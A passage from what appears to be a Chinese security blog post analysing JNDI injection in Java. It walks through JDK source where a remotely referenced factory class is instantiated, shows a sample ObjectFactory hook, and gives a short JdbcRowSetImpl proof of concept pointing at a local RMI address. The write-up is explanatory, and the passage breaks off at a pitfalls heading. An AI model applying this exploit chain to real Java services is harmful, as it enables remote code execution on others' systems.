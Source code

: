 在decodeObject中，会判断传入对象是满足RemoteReference接口，满足则通过getReference函数获取reference对象，然后进入getObjectInstance函数  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    if (ref != null) {  
                String f = ref.getFactoryClassName();            if (f != null) {                // if reference identifies a factory, use exclusively  
      
                    factory = getObjectFactoryFromReference(ref, f); //触发点1                if (factory != null) {                    return factory.getObjectInstance(ref, name, nameCtx,                                                     environment); //触发点2                }                // No factory found, so return original refInfo.                // Will reach this point if factory class is not in                // class path and reference does not contain a URL for it                return refInfo;

在getObjectInstance函数中，一共有两处可执行RMI中定义的恶意代码的地方，一处是getObjectFactoryFromReference，在getObjectFactoryFromReference中会通过获取到对应的Class对象，通过clas.newInstance()触发恶意构造函数

  * 

    
    
    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;

另外一处，则是通过实例化的类，调用其getObjectInstance函数，只要我们实现了ObjectFactory接口，复写getObjectInstance函数，即可执行恶意代码  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    public class Exec implements ObjectFactory {  
        public Exec(){    }  
      
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {        System.out.println("factory.getObjectInstance hook!");        return null;    }}

 **JdbcRowSetImpl的JNDI注入利用链**

  

在实战过程中，context.lookup直接被外部调用的情况比较少，但是我们可以通过间接调用context.lookup实现JNDI的注入，JdbcRowSetImpl就是这样一条利用链，先来看一下最终的POC

  *   *   *   * 

    
    
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");JdbcRowSetImpl j = new JdbcRowSetImpl();j.setDataSourceName("rmi://127.0.0.1:9527/exec");j.setAutoCommit(true);

  

调用链如下

![](https://gitee.com/fuli009/images/raw/master/public/20210805141839.png)

可以看到，唯一的不同在于lookup前调用了setAutoCommit以及connect

  

 **坑**

  
